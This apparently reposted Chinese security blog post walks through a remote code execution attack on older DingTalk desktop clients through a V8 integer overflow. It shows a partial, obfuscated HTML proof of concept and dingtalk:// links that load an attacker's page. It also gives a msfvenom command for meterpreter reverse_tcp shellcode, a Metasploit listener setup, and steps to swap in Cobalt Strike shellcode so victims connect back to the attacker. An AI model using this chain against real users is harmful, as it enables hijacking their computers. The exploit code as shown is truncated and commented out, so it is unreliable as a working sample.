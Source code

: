 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg5NTU2NjA1Mw==&mid=2247503251&idx=1&sn=4348ac59de6d6181d46ee70e3fb46e97

#  【攻防实战】实战中的某钉RCE  
原创 平凡安全  平凡安全   2025-06-28 12:00  
  
**「当你深入了解这块土地上的人们时，你会发现，他们的思想，配得上他们所受的苦难。」**  
## 「前言」  
  
网络安全技术学习，承认⾃⼰的弱点不是丑事。只有对原理了然于⼼，才能突破更多的限制。拥有快速学习能力的安全研究员，是不能有短板的，有的只能是大量的标准板和几块长板。知识⾯，决定看到的攻击⾯有多⼴；知识链，决定发动的杀伤链有多深。  
## 「零、漏洞原理」  
  
利用了Chromium v8引擎整数溢出漏洞（是V8优化编译器Turbofan在SimplifiedLowering阶段产生的一个整数溢出漏洞），V8是Chromium内核中的JavaScript引擎，负责对JavaScript代码进行解释优化与执行。  
## 「一、影响版本」  
  
经测试需要钉钉版本< 6.3.25-Release.2149108  
## 「二、poc」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7JrQfQbKaCiayrctuc7ibgyTWHyUCrAeibhPJE0qhfkCkUGeiaOKREpkO3g/640?wx_fmt=png&from=appmsg "")  

```
<html>

<body>
    <h1> test </h1>
    <script>
/*
* var _0x1b17=['KELCi8OxLg==','ZE/CpWvCpDkcPA==','E8Kjw51bQ8O+Klk0w4vCsw==','w5lnw5Ipwr12RsOCw7B/J8OEw4E=','QMOtNcO9w77Dv8OIwp3DmQ7CksOdOA==','X8KgbcK0wqXCuw==','DjfCg8KK','OsO3fsOwwojCq0YpMw==','RMKWBMKHW3PCqcKjTwgMaw==','O8KCw5PCoMOpwo0=','e0rDgMO8wqNndsOM','wphVw6Zhw7wWwrLDg8K1','IibCvsKFwqXCqMKAw6w4NDgs','PcO6Z8O2w4LCp20tMWrDhxMZRSLCmSvDuTjCnk8=','GcOiPsKX','G8K7w6vDpXNGIcOwLnXDu8K9BkI=','w7MXFMKhw78WwpYqwqVVFcKR','GMK/w7vDpnVIJ8Or','ank7Wy4jw44=','HTfCicKbGsKEaysJwqTDux1L','GS3CqsKEwqjCp8KRw5Y=','GcOmcktVwrw=','w50aKsKuwq9cdMO4wpTDqyo5GBQ=','IybCrcKgwrvCpsKGw5w8Pyc5AcOn','NhbCuwM=','wqFcbEfDmMOMw6LCkl9ywqwDwocc','wqfChMOfw4jDjsKzwozCn8Oqwok=','w4tcwrED','cCvCsMOQw7g=','w6pdw4k=','wqJyw4vCmMO1wrTCj8OSwqnDnSY=','WsKcBA==','wrV8w4vCjcOlwrDDgcKXwqTDlQ==','XsKWD8KeWA==','H8O+KcKHHGPDiUQ=','w73Ci8OFw60=','Wy7Csg==','e0TDocOvwrR6IsKLQArDsw==','AzvCjQIS','VMOxw6/Ciw==','fEDDp8OdwrhgbMKYGw==','PCzCvg==','w5QHwrPDlGRLNQHDpHwqa8OJR3hiwpwyMBJzJR8=','ZMO8ecOcd8Oow7M6wq1O','w417wqvDl3BuwooiwrnCpDBZwoNw','fHtRGA==','Y24s','w4VWwrsdKQ8=','HsKCOC4RwrQ=','w4AJwrLDi05SLxfDtEI0esODaA==','L2kiFG0=','H8O+I8KdBmc=','w6RcwrEPMQI=','FTvDq8O+w7Ucax4=','FsKfJS4Rwrky','wpBAw5zCjMO1','HsO+w4PDgsKUWw==','EcKxwoXDjcOLCQ==','PkrCncOEOMOww7fCrlDCgMOJesOdAQ==','F8K+w49bSQ==','w4dew5rDmMKg','wp52wrbCpzM=','wqIjw4xDwqA=','cMKIw5vCncKdJV/CoMK7RA==','CiTCnsKdC8KV','fXtHE8ObSBZqwp5G','Fjd1EMOqw57CgcOd','ZsOje8OLbMO8w4Q3wqAQwqU=','C8Kxw63Dh3RZIcO6Pj4=','w4rDj8O/','ZU/Ctg==','BcKyw55TcsO8HF8+w7jCtsKtEgo7w5LCigQ8','w4ZdwrkVPAM='];(function(_0x4285cf,_0x1b1736){var _0x1368bb=function(_0x5a17b5){while(--_0x5a17b5){_0x4285cf['push'](_0x4285cf['shift']());}};_0x1368bb(++_0x1b1736);}
*/
</script>
</body>

</html>

```


```
test
0x0000000000000000

test: 0000000000000NaN

wasm_func_addr is: 0000000000000NaN

shared_info_addr is: 00000000000000-1

export_function_data_addr is: 00000000000000-1

wasm_instance_addr is: 00000000000000-1

rwx addr is: 0000000000000000

```

## 「三、触发方式」  

```
dingtalk://dingtalkclient/page/link?url=x.x.x.x/calc.html&pc_slide=true

```

### 「漏洞证明」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7X4G0NfOtxaYvbOJ4ebThvZdtothric47HpfsAicIUhegIiaZyavSmUtsg/640?wx_fmt=png&from=appmsg "")  
## 「四、msf反弹shell」  
### 「msf 生成shellcode」  

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=xxx -e x86/shikata_ga_nai -f csharp

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7WtUPZKhHsGAdibbq3C4I66LMictqum0HfCIBhD3CULkDlueiadMHZfoYQ/640?wx_fmt=png&from=appmsg "")  
### 「msf开启监听」  

```
use exploits/multi/handler
set lhost x.x.x.x
set lport xxx
run

```

### 「将生成的shellcode替换原shellcode」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7f8VyiaicP2rxnj8afY8KibsnDxkmDp4w73vycasgoOshK6XhlHnlubcOQ/640?wx_fmt=png&from=appmsg "")  
### 「需要替换的位置为」  

```
var shellcode=new Uint8Array()

```

### 「poc」  

```
dingtalk://dingtalkclient/page/link?url=http://x.x.x.x/msf.html&pc_slide=true

```

### 「成功上线msf」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7xYLDr8vbAKWAPgTvcC7BeCV9qib7d7gly5JKQd5iaHFCVZbfyVZ5KXbQ/640?wx_fmt=png&from=appmsg "")  
## 「五、cs反弹shell」  
### 「cs生成c#的shellcode」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a740VJY5Xc6icDF0cibdAB2KQeUXCNgm8YHkuoRWNMG6hlBKQkBU4ONz3A/640?wx_fmt=png&from=appmsg "")  
  
不要勾选x64  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7L0ePU8I1mMBweKuQTaeCatzIdKNfBKPFJOHf3jOEX8z9xIk84b2ISw/640?wx_fmt=png&from=appmsg "")  
  
将生成的shellcode替换原shellcode  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7rVAhNmic0B7SQDRxLpcr0nvjSe5eODnIYS8132ydY6Ccjg0TefZsYPA/640?wx_fmt=png&from=appmsg "")  
### 「需要替换的位置为」  

```
var shellcode=new Uint8Array()

```

### 「poc」  

```
dingtalk://dingtalkclient/page/link?url=http://x.x.x.x/cs.html&pc_slide=true

```

### 「成功上线cs」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7r3icxLxg1uaRkotdrHmkLfZTPUbCLx0iaBw5iaSDECdjKBXsIV7EZzYuA/640?wx_fmt=png&from=appmsg "")  
## 「网络安全感悟」  
  
网络安全是一个长期的过程，因为网络安全没有终点，不管是网络安全企业，还是在网络安全行业各种不同方向的从业人员，不管你选择哪个方向，只有在这条路上坚持不懈，才能在这条路上走的更远，走的更好，不然你肯定走不远，迟早会转行或者被淘汰，把时间全浪费掉。如果你觉得自己是真的热爱网络安全这个行业，坚持走下去就可以了，不用去管别人，现在就是一个大浪淘金的时代，淘下去的是沙子，留下来的才是金子，正所谓，千淘万漉虽辛苦，吹尽狂沙始到金，网络安全的路还很长，一生只做一件事，坚持做好一件事！  
## 「攻防交流群」  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/v94hWOZcBpw323CyHsGP3dchTrQZN6a7xU7FNJLkPxtbYvdaw8VxEVOiaPRys7OpaJ68zaOoouJm2IhicDXBBOmw/640?wx_fmt=jpeg&from=appmsg "")  
## 「声明」  
  
文笔生疏，措辞浅薄，敬请各位大佬不吝赐教，万分感谢。  
  
免责声明：由于传播或利用此文所提供的信息、技术或方法而造成的任何直接或间接的后果及损失，均由使用者本人负责， 文章作者不为此承担任何责任。  
  
转载声明：平凡安全 拥有对此文章的修改和解释权，如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章的内容，不得以任何方式将其用于商业目的。  
  
